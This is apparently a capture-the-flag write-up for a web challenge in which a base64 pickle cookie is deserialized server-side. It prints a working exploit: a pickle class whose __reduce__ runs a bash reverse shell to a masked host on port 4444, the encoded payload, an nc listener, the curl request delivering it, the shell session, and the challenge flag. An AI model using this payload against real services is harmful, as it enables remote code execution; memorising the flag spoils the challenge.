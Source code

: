 # Bonus Web x

Visit the site at hxxps://xxxxxxxx and find a way to get the flag.

There's a variable called 'flag' but good luck getting to it! This is a super serious challenge.

## Solution

After a few tries you will understand that the most interesting thing is in the cookie that displays your name `Reload for your greeting...`.

For me it was `KGRwMApWbmFtZQpwMQpWbmljb2xhcwpwMgpzLg==` which is the base64 encoded of

```
(dp0
Vname
p1
Vnicolas
p2
s.
```

If you don't recognize the Pickle encoding yet, you can play around with the API and an obvious error message will tell you that the "Pickle cannot be decoded".

Here it is a dictionary object: `{'name':'nicolas'}`.

I coded a reverse shell to gain access to the instance:

```
$ python
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
>>> import os
>>> import pickle
>>> class Shell_code(object):
...     def __reduce__(self):
...           return (os.system,('/bin/bash -i >& /dev/tcp/xx.xx.xx.xx/4444 0>&1',))
... 
>>> with open('datafile.bin', 'wb') as fh:  pickle.dump(Shell_code(), fh)
... 
>>> exit

$ cat datafile.bin | base64 -w0
gASVSQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjC4vYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AveHgueHgueHgueHgvNDQ0NCAwPiYxlIWUUpQu

```

In the meantime, I started my public instance and listened on port 4444

```
$ nc -l -p 4444
```

When I'm ready I run the POST request and wait for the reverse shell to work.

```
curl -X POST 'https://xxxxxxxx/stag/wx01' -d '{"userdata": "gASVSQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjC4vYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AveHgueHgueHgueHgvNDQ0NCAwPiYxlIWUUpQu"}'
```

Back to my C2, I can use my RCE.

```
# First try, I only had the time to do a "ls" before the timeout of 5 seconds
$ nc -l -p 4444
bash: no job control in this shell
bash-4.2$ ls
ls
lambda_function.py

# This time I will do a "cat lambda_function.py" really fast
$ nc -l -p 4444
bash: no job control in this shell
bash-4.2$ cat lambda_function.py
cat lambda_function.py
import json
import pickle
import base64
import subprocess

flag = "Flag: suPER_SeRiAL-bR0_02891"
# Solution is: Y19fYnVpbHRpbl9fCmV2YWwKKFZleGVjKCJ1c2VyWyduYW1lJ109ZmxhZyIpCnRSLg==

def handle(event):
```

Flag is `suPER_SeRiAL-bR0_02891`
